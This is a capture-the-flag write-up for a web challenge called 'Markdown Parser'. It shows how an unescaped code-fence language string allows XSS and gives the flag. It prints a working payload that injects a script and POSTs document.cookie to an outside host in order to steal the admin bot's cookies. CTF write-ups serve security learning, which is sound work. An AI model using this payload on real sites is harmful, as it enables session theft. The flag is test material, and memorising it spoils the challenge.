 # Markdown Parser

> I built this simple markdown parser. Please give me some feedback (in markdown), I promise to read them all. Current features include: bold, italics, code blocks with syntax highlighting!
> 
> Author: ocean
> 
> http://challs.nusgreyhats.org:33335

Solution:

We are given with the source files for the challenge.

Since there's an [admin.js](admin.js) file, we can assume that this is an XSS challenge and we have to retrieve the flag from the cookie of the admin bot.

Now, how do we exploit it? Let's take a look at the challenge website...

![image](images/1.png)

![image](images/2.png)

So the text that we input in the text field gets encoded to base64 and then displayed back to us. If we click the `Submit Feedback` button, it gets sent to `/feedback` which is then fed to the admin bot.

Does it sanitize/parse/format our input? Yep, it happens at [markdown.js](markdown.js)

However, we can escape that at
```javascript
if (line.startsWith('```')) {
    language = line.substring(3).trim();
    inCodeBlock = true;
    htmlOutput += '<pre><code class="language-' + language + '">';
```

Let's say our payload is
```
```"><script> function postCookies() { fetch("https://redacted/", { method: "POST", body: JSON.stringify({ cookies: document.cookie }) }) }; postCookies(); </script>
test
```a
```

With `line.substring(3).trim()`, the concatenated value for the `htmlOutput` becomes

```html
<pre><code class="language-'"><script> function postCookies() { fetch("https://redacted/", { method: "POST", body: JSON.stringify({ cookies: document.cookie }) }) }; postCookies(); </script> '">
```

The extra
```
test
```a
```

Is for the

```javascript
if (line.startsWith('```')) {
    inCodeBlock = false;
    htmlOutput += '</code></pre>';
```

So it gets closed properly and so we can see the submit feedback button

As a test, I added a dummy cookie.

![image](images/3.png)

![image](images/4.png)

Cool! That works, time to send the "feedback" :D

![image](images/5.png)

![image](images/6.png)

Nice!

Flag: `grey{m4rkd0wn_th1s_fl4g}`